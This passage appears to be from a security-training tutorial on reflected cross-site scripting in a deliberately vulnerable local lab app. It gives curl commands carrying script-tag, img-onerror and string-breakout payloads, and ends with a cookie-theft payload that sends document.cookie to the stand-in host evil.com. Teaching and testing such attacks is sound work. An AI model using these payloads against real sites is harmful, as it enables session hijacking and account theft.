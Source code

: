 **Why This is Vulnerable:**
- JavaScript code uses `innerHTML` with unsanitized URL parameters
- Server-side theme parameter is reflected into JavaScript context
- Creates client-side XSS opportunity

## How XSS Attacks Work

### Attack Vectors and Payloads

#### 1. Basic Script Injection
```bash
# HTML context injection
curl "http://localhost:5000/api/xss/search?query=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E"
# URL decoded: <script>alert('XSS')</script>
```

**Attack Flow:**
1. Malicious payload sent in query parameter
2. Server reflects payload directly into HTML response
3. Browser executes the script when rendering the page
4. Alert dialog appears, confirming XSS execution

#### 2. Image Tag with onerror Event
```bash
# Image onerror injection
curl "http://localhost:5000/api/xss/search?query=%3Cimg%20src%3Dx%20onerror%3Dalert%28%27XSS%27%29%3E"
# URL decoded: <img src=x onerror=alert('XSS')>
```

**Why This Works:**
- `<img src=x>` creates invalid image that fails to load
- `onerror` event handler executes when image fails
- Works even when `<script>` tags are filtered

#### 3. JavaScript Context Injection
```bash
# Break out of JavaScript string context
curl "http://localhost:5000/api/xss/search?query=test%27%3Balert%28%27XSS%27%29%3B%2F%2F"
# URL decoded: test';alert('XSS');//
```

**Resulting JavaScript:**
```javascript
console.log('Search query: test');alert('XSS');//');
```

**Attack Flow:**
1. `test'` closes the original string
2. `;alert('XSS');` executes malicious JavaScript
3. `//` comments out the rest of the line

#### 4. Cookie Theft Attack
```bash
# Steal session cookies
curl "http://localhost:5000/api/xss/search?query=%3Cscript%3Efetch%28%27http%3A%2F%2Fevil.com%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E"
```
